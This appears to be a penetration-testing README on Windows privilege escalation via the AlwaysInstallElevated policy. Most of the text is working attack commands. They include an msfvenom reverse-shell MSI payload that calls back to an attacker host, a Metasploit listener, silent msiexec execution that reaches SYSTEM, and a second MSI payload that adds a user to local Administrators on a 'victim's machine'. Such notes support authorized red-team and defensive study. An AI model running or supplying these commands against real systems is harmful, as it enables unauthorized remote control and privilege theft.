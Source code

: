 # AlwaysInstallElevated: Privilege Escalation

**MSI packages** can be installed with **elevated privileges** by non-admin users, if `AlwaysInstallElevated` privilege is enabled.

## Get an elevated reverse shell

1. Generate an **MSI payload** to get an elevated **reverse shell**

        msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=4444 -f msi > elevated_shell.msi

2. Use `exploit/multi/handler` metasploit module to start a listener

        msfconsole
        use exploit/multi/handler
        set payload windows/shell/reverse_tcp
        set LHOST <Local IP Address>
        set LPORT 4444
        run

3. Run following command to execute the malicious Windows Installer file

        msiexec /q /i .\elevated_shell.msi

4. Confirm if the privileges got escalated successfully by running `whoami`

        C:\Windows\system32>whoami
        whoami
        nt authority\system

## Add local admin privileges

1. Verify whether the Windows installer has elevated privileges or not

        reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
        reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

    “AlwaysInstallElevated” registry with a dword (REG_WORD) value of **0x1** means that the AlwaysInstallElevated policy is enabled.

2. Select a non-admin user

        net user
        net user USERNAME

3. Generate an MSI payload to add local admin privileges for an existing non-admin user account

        msfvenom -p windows/exec CMD='net localgroup administrators USERNAME /add' -f msi > pwn.msi

4. [Transfer the payload](../../windows_post_exploitation/file_transfer_smbserver/README.md) to victim's machine
5. Execute the installer

        msiexec /quiet /qn /i pwn.msi

6. Verify if the selected user was successfully added to Local Administrators group

        net user USERNAME

    You should see the following output:

        ...
        Local Group Memberships      *Administrators
        ...

## References

* https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/
* https://www.hackingarticles.in/bypass-application-whitelisting-using-msiexec-exe-multiple-methods/
* https://docs.microsoft.com/en-us/windows/win32/msi/command-line-options
* https://www.tutorialspoint.com/get-the-reverse-shell-with-msi-package
* https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/